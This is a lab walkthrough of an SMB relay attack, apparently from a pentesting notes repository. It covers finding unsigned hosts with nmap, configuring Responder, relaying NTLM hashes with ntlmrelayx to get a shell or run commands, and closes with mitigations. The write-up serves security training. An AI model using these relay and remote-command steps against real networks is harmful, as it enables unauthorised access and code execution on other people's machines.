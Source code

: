 ### **SMB Relay Attack:**

Instead of cracking hashes gathered with **Responder**, we can **relay** those hashes to specific machines and potentially gain access by leveraging **SMB relay attacks**.

#### **Requirements:**

- **SMB Signing** must be disabled or not enforced on the target machine.
- The relayed user credentials must have **administrator** privileges on the target machine for a meaningful exploit.

---

### **Identifying Vulnerable Hosts:**

1. **Using Nmap to Identify Hosts Without SMB Signing:**

We can use **Nmap** to identify machines that do not have SMB signing enabled. This can be done with the following command:

`nmap --script=smb2-security-mode.nse -p445 <Target IP>`

This will scan for SMB security modes and tell us if SMB signing is enforced.

2. **Identifying Vulnerable Hosts:**

Once we have the results from Nmap, we can identify which hosts are vulnerable. In my environment the DC is not vulnerable as it enforces code signing but our workstations are.

---

### **SMB Relay Attack Setup:**

1. **Creating a Target List:**

We create a `targets.txt` file containing the IPs of the identified vulnerable machines.

2. **Configuring Responder:**

Next, we modify the **Responder** configuration file to disable unnecessary services:

`sudo mousepad /etc/responder/Responder.conf`

In the configuration, we disable **HTTP** and **SMB** services.

3. **Running ntlmrelayx:**

Now we use **ntlmrelayx** to forward any captured hashes to the identified target machines. Run the following command:

`ntlmrelayx.py -tf targets.txt -smb2support`
![image](https://github.com/user-attachments/assets/f1351a05-e4b1-41ed-8394-634e025610fa)

This will relay the captured hashes to the target hosts. The attack will try to authenticate using the relayed NTLM hashes.

---

### **Gaining Shell Access:**

1. **Relaying to Get a Shell:**

In addition to dumping the SAM file, we can use the `-i` option to get a reverse shell from the relayed machine:

`ntlmrelayx.py -tf targets.txt -smb2support -i`
![image](https://github.com/user-attachments/assets/e86fbbbd-6154-4877-ba83-89234f043e72)

2. **Setting Up Netcat Listener:**

We set up a Netcat listener on localhost to catch the reverse shell:

`nc -lvp <Port>`

![image](https://github.com/user-attachments/assets/71160416-30e6-4da6-a377-8f750cea7982)

3. **Running Commands on the Target Machine (Using the `-c` Flag):**

Instead of waiting for the reverse shell, we can use the **`-c` flag** in `ntlmrelayx` to execute specific commands directly on the target machine. For example, to run `whoami` on the target:

`ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"`
![image](https://github.com/user-attachments/assets/f50ae36f-8aa3-43ab-81e4-b2ca64263db6)


This allows us to run commands remotely without needing to establish an interactive shell.

---

### **Mitigation Strategies:**

To prevent SMB relay attacks, consider the following mitigations:

1. **Enabling SMB Signing on All Devices:**
    
    - **Pro:** Completely stops the attack.
    - **Con:** May cause performance issues, particularly with file transfers.
2. **Disabling NTLM Authentication:**
    
    - **Pro:** Completely stops the attack.
    - **Con:** If **Kerberos** fails, Windows defaults back to NTLM.
3. **Local Admin Restrictions:**  
    Limit local administrator privileges to reduce the potential impact of compromised credentials.
    
4. **Account Tiering/Least Privilege:**  
    Implement account tiering and least privilege practices to restrict the scope of any attack.
